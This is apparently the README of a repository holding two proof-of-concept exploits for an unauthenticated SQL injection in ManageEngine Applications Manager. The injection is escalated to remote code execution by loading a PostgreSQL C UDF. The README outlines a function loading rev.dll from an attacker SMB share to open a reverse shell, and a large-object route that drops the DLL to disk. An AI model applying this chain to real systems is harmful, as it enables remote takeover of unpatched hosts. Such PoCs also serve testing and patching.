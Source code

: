 This repository provides two Python-based proof-of-concept (PoC) exploits targeting a critical unauthenticated SQL injection vulnerability in the AMUserResourcesSyncServlet endpoint of ManageEngine Applications Manager (versions 11.0 to <14.0). The backend database for this application is PostgreSQL, which allows the attacker to craft and load a User-Defined Function (UDF) written in C to achieve remote code execution (RCE) on the underlying Windows host.

1. POC_ManageEngine.py – UDF DLL Load via SMB

    Defines a UDF via CREATE FUNCTION ... AS $$\\attacker_ip\share\rev.dll$$

    Triggers a reverse shell by calling the function with target IP/port

    Simple and efficient for SMB-hosted DLL payloads

2. LargeObjectAPI.py – Large Object Injection & Export

    Encodes the reverse shell payload (DLL) into hex

    Injects the binary into PostgreSQL's pg_largeobject table chunk by chunk

    Uses lo_export() to drop the UDF DLL to disk on the target

    Triggers code execution via the exported UDF
